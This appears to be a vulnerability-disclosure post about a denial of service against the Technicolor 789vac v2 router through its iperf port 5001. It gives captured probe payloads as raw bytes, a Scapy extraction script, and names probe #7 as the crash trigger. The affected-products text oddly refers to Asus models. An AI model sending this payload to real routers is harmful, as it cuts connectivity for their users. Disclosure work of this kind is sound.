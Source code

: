 ```yaml
---
layout: post
title: "Router Technicolor 789vac v2" 
date: 2025-01-15
comments: "-"
categories: vulnerability
---
```



## Affected products

We have not yet tested Asus models other than those listed. However we suspect it may also work on other models with similar firmware version higher than 2.0.0.

```
    Technicolor 789vac v2
```



## Overview

An issue was discovered in the Technicolor 789vac router running firmware AGTOT 2.2.3. An unauthenticated remote attacker can send a crafted probe or perform a service detection scan, targeting the iperf service on port 5001. This triggers an immediate failure in the router’s network stack, causing disruption of all network connectivity (wired and wireless) and resulting in a full router reboot.

**This PoC can result in a DoS.**

**Given the vendor's policies, we wont't show the Source Code of the binary scripts. However, we'll inspect the web page source. We'll provide the insights before and after the procedure.**

## Strategy

We analyzed the improper behaviours. 
Simultaneously, we captured the network traffic log all packets exchanged. 
We saved the captured data in PCAPNG format for further analysis. 
Collect all the probes analyzing pcapng (e.g. Scapy)
We filtered precisely the crashing cause by sending one by one and then crafted the exploit.

Here's the list of the probes collected: 
```
Probe #1: b'\x01\x00\x00\xfd\xce\xfa\x0b\xb0\xa0\x00\x00\x00MMS\x14\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00\x01\x00\x03\x00\xf0\xf0\xf0\xf0\x0b\x00\x04\x00\x1c\x00\x03\x00N\x00S\x00P\x00l\x00a\x00y\x00e\x00r\x00/\x009\x00.\x000\x00.\x000\x00.\x002\x009\x008\x000\x00;\x00 \x00{\x000\x000\x000\x000\x00A\x00A\x000\x000\x00-\x000\x00A\x000\x000\x00-\x000\x000\x00a\x000\x00-\x00A\x00A\x000\x00A\x00-\x000\x000\x000\x000\x00A\x000\x00A\x00A\x000\x00A\x00A\x000\x00}\x00\x00\x00\xe0m\xdf_'
Probe #2: b'\x00\x00\x00\x1f\x00\x00\x00\x00\x00\x00\x00\x0cGetClassName\x00\x00\x00\x02\x04\x00\x00\x00\x00\x01\x00'
Probe #3: b'\r\n\r\n'
Probe #4: b'GET / HTTP/1.0\r\n\r\n'
Probe #5: b'OPTIONS / HTTP/1.0\r\n\r\n'
Probe #6: b'OPTIONS / RTSP/1.0\r\n\r\n'
Probe #7: b'\x80\x00\x00(r\xfe\x1d\x13\x00\x00\x00\x00\x00\x00\x00\x02\x00\x01\x86\xa0\x00\x01\x97|\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
Probe #8: b'\x00\x1e\x00\x06\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x07version\x04bind\x00\x00\x10\x00\x03'
Probe #9: b'\x00\x0c\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00'
Probe #10: b'HELP\r\n'
Probe #11: b'\x16\x03\x00\x00S\x01\x00\x00O\x03\x00?G\xd7\xf7\xba,\xee\xea\xb2`~\xf3\x00\xfd\x82{\xb9\xd5\x96\xc8w\x9b\xe6\xc4\xdb<=\xdbo\xef\x10n\x00\x00(\x00\x16\x00\x13\x00\n\x00f\x00\x05\x00\x04\x00e\x00d\x00c\x00b\x00a\x00`\x00\x15\x00\x12\x00\t\x00\x14\x00\x11\x00\x08\x00\x06\x00\x03\x01\x00'
```

Probe scraping: 
```
from scapy.all import rdpcap

# pcapng file
file_path = 'crash.pcapng'  # Replace with your file path
packets = rdpcap(file_path)

# Target parameters
target_ip = "ip_addr" 
target_port = 5001

# Payload extraction
probes = []
for packet in packets:
    if packet.haslayer("TCP") and packet["TCP"].dport == target_port and packet["IP"].dst == target_ip:
        payload = bytes(packet["TCP"].payload)
        if payload and payload not in probes:  # Avoid duplicates
            probes.append(payload)

for i, probe in enumerate(probes, start=1):
    print(f"Probe #{i}: {probe}")
```

The probe #7 is the chosen one that leads Techicolor 789vac failure, producing an unwanted reboot of the system.


 

